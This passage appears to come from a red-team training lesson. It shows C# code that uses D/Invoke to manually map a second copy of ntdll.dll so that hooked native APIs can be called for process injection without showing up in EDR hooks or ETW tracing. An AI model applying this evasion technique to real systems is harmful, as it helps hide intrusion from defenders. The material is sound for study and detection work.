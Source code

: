 This shows that **NtAllocateVirtualMemory**, **NtCreateThreadEx,** **NtOpenProcess** and **NtWriteVirtualMemory** are hooked.  We can also see that there are also a lot of APIs that are not hooked.  A perfectly legitimate strategy would be to use a process injection technique that utilises those unhooked APIs, and just avoid the hooked ones altogether.  However, for the purposes of this lesson we're going to explicitly demonstrate how to use these hooked APIs.

## Manual Mapping

Use D/Invoke's **Map.MapModuleToMemory()** method to read and map a new instance of ntdll.dll into the process.  This won't stomp over the existing ntdll in memory, but rather be mapped into a new memory region.
```cs
var ntdll = Map.MapModuleToMemory(@"C:\Windows\System32\ntdll.dll");
```

If you can inspect the memory regions of the process in a debugger, you'll see that the module is allocated in a random piece of memory, not appearing to be backed by a module on disk.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/edr/ntdll-modulebase.png)

Setup the parameters for calling **NtOpenProcess** and then use **Generic.CallMappedDLLModuleExport()**, passing in the mapped ntdll module, the name of the export, and the desired parameters.
```cs
var oa = new Data.Native.OBJECT_ATTRIBUTES();
var cid = new Data.Native.CLIENT_ID
{
    UniqueProcess = (IntPtr)1234
};

var hProcess = IntPtr.Zero;
var parameters = new object[]
{
    hProcess, Data.Win32.Kernel32.ProcessAccessFlags.PROCESS_ALL_ACCESS, oa, cid
};

var status = (Data.Native.NTSTATUS)Generic.CallMappedDLLModuleExport(
    _ntdllMap.PEINFO,
    _ntdllMap.ModuleBase,
    "NtOpenProcess",
    typeof(Native.DELEGATES.NtOpenProcess),
    parameters,
    false);

if (status == Data.Native.NTSTATUS.Success)
    hProcess = (IntPtr)parameters[0];
```

Do this for the remaining APIs and perform the injection as before.  You should not see any of the API calls in the ETW tracing session.

#####  Don't forget to call **Map.FreeModule(ntdll)** to free the mapped instance of ntdll from the process after use.  There's no need to leave it lying around and may serve as an indicator.

One downside is that D/Invoke needs to call some APIs such as **NtAllocateVirtualMemory** and **NtWriteVirtualMemory** in order to map the module into memory.